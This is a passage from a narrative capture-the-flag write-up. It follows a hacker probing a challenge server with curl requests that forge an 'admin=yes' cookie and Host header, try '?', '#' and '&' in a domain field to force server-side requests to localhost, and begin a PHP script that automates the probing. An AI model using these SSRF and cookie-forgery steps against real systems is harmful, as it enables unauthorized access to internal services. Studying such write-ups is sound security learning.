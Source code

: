 Ah, now *that* was interesting. But how could he ditch that `212.tomnomnom.com` part of the path? A `?`?

```
▶ curl -s http://104.236.20.43 -H'Host: admin.acme.org' -H'Cookie: admin=yes' -H'Content-Type: application/json' -d'{"domain": "localhost/?212.tomnomnom.com"}'
{"error":{"domain":"domain cannot contain ?"}}
```

No. An octothorpe?

```
▶ curl -s http://104.236.20.43 -H'Host: admin.acme.org' -H'Cookie: admin=yes' -H'Content-Type: application/json' -d'{"domain": "localhost/#212.tomnomnom.com"}'
{"error":{"domain":"domain cannot contain #"}}
```

No again. Curses. `&`? No; the same fate was bestowed even for the almighty ampersand.

The IDs continued to climb as he read blog posts, RFCs, PDFs... Nothing worked. Soon his hour
was up, and it was time to sleep. There was no work the next day, and perhaps - he thought - his
brain might surprise him over night. Might the answer come to him in a dream?!


## Chapter 2
The answer did not come to him in a dream. Bleary-eyed, he stumbled through his morning routine.
He clothed and fed his son and took him to nursery, he tidied the kitchen, he made some coffee, and
then headed back into the garage.

He had grown tired of requesting one URL to set the domain, and then another to read the response; so
he started the day with some PHP. The plan was to automate the writing and the reading in one command;
that way he could really pick up the pace:

```php
#!/usr/bin/php
<?php
const BASE = "http://104.236.20.43";

$domain = $argv[1]?? '212.example.com';

// no json_encode so I can manually type escape sequences etc
$write = req(BASE, ['Content-Type: application/json'], '{"domain": "'.$domain.'"}');
echo $domain.PHP_EOL;
echo $write.PHP_EOL;

$write = json_decode($write);
if (!$write || !isset($write->next)){
    die("no next url\n");
}

$read = req(BASE.$write->next);
echo $read.PHP_EOL.PHP_EOL;

$read = json_decode($read);
if (!$read || !isset($read->data)){
    die("no data in response\n");
}

echo base64_decode($read->data).PHP_EOL;


function req($url, $headers = [], $data = null){
    $ch = curl_init();
    curl_setopt($ch, CURLOPT_URL, $url);
    curl_setopt($ch, CURLOPT_RETURNTRANSFER, true);
```